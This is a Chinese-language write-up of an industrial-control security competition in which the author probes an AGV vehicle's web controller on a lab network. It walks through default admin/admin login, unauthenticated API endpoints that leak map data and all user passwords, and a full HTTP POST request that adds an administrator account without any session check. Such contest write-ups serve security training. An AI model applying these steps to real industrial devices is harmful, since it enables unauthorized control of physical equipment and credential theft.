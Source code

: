 1、前言
----

“中国制造2025”等国家战略的推出，以及云计算、大数据、人工智能、物联网等新一代信息技术与制造技术的加速融合，工业控制系统由从原始的封闭独立走向开放、由单机走向互联、由自动化走向智能化。在工业企业获得巨大发展动能的同时,也出现了大量安全隐患，而工业控制系统作为国家关键基础设施的“中枢神经”，其安全关系到国家的战略安全、社会稳定。

2、目标
----

**决赛采用工业互联网场景安全竞赛，竞赛围绕隐患挖掘、漏洞修补、协议分析、密码加 解密、工业互联网包括工控领域的SCADA、DCS、PCS、PLC、RTU、IED等系统或设备等相关知识、人工智能、等方面技术赛题。**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9421f65fffc55bf9ee6ad8825183aebeaecca92d.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9421f65fffc55bf9ee6ad8825183aebeaecca92d.jpg)  
**可使用wifi连接，挖掘AGV小车有价值的漏洞**

3、漏洞挖掘
------

#### 中危漏洞

**首先连接WIFI**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d01300b8b22e262501d95667028560635275330c.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d01300b8b22e262501d95667028560635275330c.png)  
**题目提供AGV小车所在的web控制地址:<http://192.168.8.143/>**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-07e62a5b5b06dd6147879a5681b5f028cbfc383b.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-07e62a5b5b06dd6147879a5681b5f028cbfc383b.png)  
**一般来说工控设备弱口令巨多，这次也不例外**  
**使用常用弱口令  
账号admin  
密码admin**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d90c00e4c6ae83162d62fbb6114689fd35aaff32.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d90c00e4c6ae83162d62fbb6114689fd35aaff32.png)  
**成功进入后台(这已经拿了中危的分了)**  
**进一步挖掘，分析菜单有哪些功能点**  
**利用团队特色F12大法，刷新进行抓包**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-7410e950221e456717eebab50ff65532a2e6aeac.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-7410e950221e456717eebab50ff65532a2e6aeac.png)  
**发现两个post包  
<http://192.168.8.143/api/v0/2/missions>  
<http://192.168.8.143/api/v0/map/Map202105061426new/data>  
泄露用户对地图的操作记录**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-5436c5288829fc7c0597a39ee14681197fed13d2.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-5436c5288829fc7c0597a39ee14681197fed13d2.png)  
**泄露地图信息坐标**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f8ca3ca78c9205d641140c09d3a19cb121011a38.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f8ca3ca78c9205d641140c09d3a19cb121011a38.png)  
**未授权:以上接口无痕浏览器也可浏览  
那我们进地图列表里面**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-15a6cc3fdd69e191a9c81b478616c118669c2db8.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-15a6cc3fdd69e191a9c81b478616c118669c2db8.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8e799a51e1d221515b9a415257f587f225885a44.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8e799a51e1d221515b9a415257f587f225885a44.png)  
**进行导出操作  
分别得到地址:  
<http://192.168.8.143/api/v0/map/Map202105061426new/export?type=FMS>  
<http://192.168.8.143/api/v0/map/Map202105061426new/export?type=OM>**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-39c92b3ba3fd9cd95883eac7ebd91a24baf68eaf.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-39c92b3ba3fd9cd95883eac7ebd91a24baf68eaf.png)  
**使用无痕浏览器进行访问**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-434d5c0e00b6ba9949feaffdae4d1583ca5762d9.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-434d5c0e00b6ba9949feaffdae4d1583ca5762d9.png)  
**也可以进行下载  
当然Map202105061426new是有规律的，可以利用规律进行爆破，就可以下载其他地图了(给了中危)**

- - - - - -

#### 高危漏洞

**既然要高危，不是拿到权限就是重要的信息泄露  
进入账号管理**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6504f7dff42e4e5c44dbb6ff509ee646a9cd54b0.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6504f7dff42e4e5c44dbb6ff509ee646a9cd54b0.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d123c14133555cba237425c6d58b3949d22d9f58.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d123c14133555cba237425c6d58b3949d22d9f58.png)  
**抓到接口http://192.168.8.143/api/v0/accounts**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-785d841b564174266af6b4598302839daadbe937.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-785d841b564174266af6b4598302839daadbe937.png)  
**很好，接口直接泄露所有用户密码，尝试是否有未授权，使用无痕浏览器进行前台访问**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-197e74bec836ddb2f3f71ac18a3e104ce60b38eb.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-197e74bec836ddb2f3f71ac18a3e104ce60b38eb.png)  
**这高危不就来了嘛**  
**既然那么多未授权，是不是可以联想到添加用户存不存在未授权呢，说干就干**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-50b3ab863ed47ed210e3134e9a3eef913676b532.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-50b3ab863ed47ed210e3134e9a3eef913676b532.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-926afc2a991a54ea7d1d50e1f807573e270087ca.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-926afc2a991a54ea7d1d50e1f807573e270087ca.png)  
**我们直接选管理员，填完抓包**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-007e35a973112a051ed7ba630405d218248626fa.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-007e35a973112a051ed7ba630405d218248626fa.png)  
**可以发现并没有验证cookies也就是说只要找到这个接口就能添加用户甚至是管理员**

```php
POST /api/v0/account/2 HTTP/1.1
Host: 192.168.8.143
Content-Length: 92
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.8.143
Referer: http://192.168.8.143/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"id":0,"username":"test","passwd":"123456","permission":"20","pincode":"","mission_ids":[]}

```

**测试:**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-94bb53998b823b89f2804469178ecfaf06f31e11.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-94bb53998b823b89f2804469178ecfaf06f31e11.png)  
**进入后台查看是否添加成功**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-61f213983b9e9dffc9cf35926048503ec8f4a79d.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-61f213983b9e9dffc9cf35926048503ec8f4a79d.png)  
**添加成功**  
**有些报告忘记保存了，就这样吧**

总结
--

**最后也是通过这一台小车就拿下第七，毕竟第一次接触工控**  
**纪念一下**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-58d9e94c20b6197b4a174576937faeea9569ae97.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-58d9e94c20b6197b4a174576937faeea9569ae97.jpg)  
**工控类安全比较缺乏，一般来说未授权存在的漏洞比较多，可以往这方面进行挖掘**